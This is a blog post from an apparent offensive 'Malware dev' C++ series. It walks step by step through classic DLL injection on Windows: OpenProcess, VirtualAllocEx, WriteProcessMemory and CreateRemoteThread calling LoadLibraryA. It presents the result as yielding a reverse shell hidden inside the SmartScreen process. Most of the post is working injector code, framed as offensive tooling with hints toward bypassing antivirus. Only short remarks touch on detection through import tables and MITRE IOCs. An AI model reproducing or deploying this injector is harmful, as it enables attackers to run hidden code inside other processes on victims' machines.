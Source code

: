 ```yaml
---
title: DLL injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]
author: Alejandro Rivera
pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/beaedd97-aaee-470c-a38d-08a1abce682a
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


For this second post of offensive C++ we are going to look at the DLL injection technique. This technique, like Remote process Injection, has been known for many years and we are not really going to re-invent the wheel here. Even so, it is very important to understand how it works as it will be useful for complex techniques.

The DLL injection technique consists, roughly speaking, of loading an external DLL into a remote process and making it execute its contents.

Before I start talking about the logic behind the technique and how we can program it using C++ I will show a practical example to get a better context of what we are talking about.

In the following image you can see how, after executing the .exe that performs the DLL injection, I obtained a reverse shell whose payload is executed under the Windows Defender SmartScreen.exe process. It should be noted that the tests are performed with AV disabled, you would have to do a couple more things to bypass the defender x). 
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/9fd1c477-c80c-430b-9796-05657e1d8b98)

We can take a look at the memory address obtained by reserving memory and see that the absolute path to our DLL is stored there.
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/dd7fcc35-1366-4b5b-8342-e9e03acc01f3)

Now that we have quickly seen the technique in action, let's see how we can program it in C++.

This first part is identical to the Remote process injection technique, we need to open a Handle to be able to interact with the process in which we want to perform the injection. In this case I still use the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API.
```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

The next step is also almost identical to the one we executed in the first post, the only difference is that this time we cannot calculate the length of the variable using sizeof as we would be reserving a smaller space than we need as you can see in the following image:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/08c0a340-0bd3-48e0-a7f9-4bfa182698d6)

Instead, we have to use **strlen() + 1** (+1 because we have to count the terminating character of the string, the null byte).
```c++
const char* dllPath = argv[2];

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
	printf("%s Cannot allocate memory for the dll\n", err, bAddress);
	return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully in %p\n", ok, bAddress);
```

We write the path of the DLL in memory using the function [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) and strlen() to define the length of the variable to write.
```c++
if(WriteProcessMemory(hProcess, bAddress, dllPath, strlen(dllPath) + 1, NULL) == 0){
	printf("%s Cannot write on memory, error %d", err, GetLastError());
	return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

And we come to the last step, this last step is quite different from the one we did in the previous post. Recall that the idea of this technique is that the target process loads a DLL and then executes its contents. For this we can use the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function. 

One of the mistakes we could make is the following:
```c++
LoadLibraryA(bAddress);
```
Some may ask, what's the problem?, you said that we need the LoadLibraryA function to load the DLL. That is correct, what is not correct is that, by doing it this way, we are **loading it into the process of the executable itself**, not into the process we want to infect. 

To inject into the remote process we need to **create a new Thread** in the target process and then have **the Thread call LoadLibraryA**. One way to do this would be to define an [LPTHREAD_START_ROUTINE](https://learn.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/lpthread-start-routine-function-pointer) which is just a pointer to a function. This presents us with a new challenge, we need the memory address of the LoadLibraryA function.

If we look at the documentation for the **LoadLibraryA** function we can see that it is located inside the **Kernel32.dll** DLL:

![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/77612b93-a83b-4f53-bf5c-484faa049250)

And how can we call a function inside a DLL?, easy, just as we can obtain a Handle from a process, we can also obtain it from a DLL using the function [GetModuleHandleA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea) :
```c++
Handle hKernel32 = GetModuleHandleA("Kernel32.dll");
```

Once we have obtained the Handle we need to find the memory address of the LoadLibraryA function, for that, we can make use of the [GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) function which does exactly that:
```c++ 
LPVOID loadlibAddr = GetProcAddress(GetModuleHandleA("Kernel32.dll"), "LoadLibraryA");
```

All this integrated in the code would look like this:
```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("Kernel32.dll"), "LoadLibraryA"), bAddress, 0, NULL);

if(hRemote == NULL){
	printf("%s Cannot get the handle to the remote process\n", err);
	return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hProcess);
CloseHandle(hRemote);

return EXIT_SUCCESS;
```

With the code finished we would only have to compile it and we would get a binary capable of executing DLL injection. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github.

Before I finish I would like to go back to the starting point of the post. The execution example:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/9fd1c477-c80c-430b-9796-05657e1d8b98)

If we take a closer look at the SmartScreen process we can find our DLL loaded correctly:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/011d3ce5-3c39-4104-b8b2-298c0dc48fb5)

A interesting thing that I discovered while playing with this technique is that if you change the name of the DLL once it has been loaded into the process, the name of the injected DLL also changes, which I found curious since the injection method is through a physical path, not a memory address. 

Another thing we can observe in the image is that, as it is not a signed DLL, it appears as *UNVERIFIED* which could make it easily detected by EDRs. 

Another easy way to detect this technique would be to look at its import table:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/f3d1b450-f81e-4513-9a2e-174c8612bbf0)

The appearance of certain windows API calls could raise suspicions. As always, here is a post from [Mitre](https://attack.mitre.org/techniques/T1055/001/) where the IOCs of this technique are analysed in more depth.

As an addition to this post I would like to explain briefly how we can create our custom DLL. It is really very simple, just as executables have a start function that is defined by the "main", DLLs have their own start function called "DllMain". In the following [link](https://learn.microsoft.com/es-es/windows/win32/dlls/dllmain) to the Windows documentation you can get a template of that function and be able to create your own DLLs.

See you in the next post :) 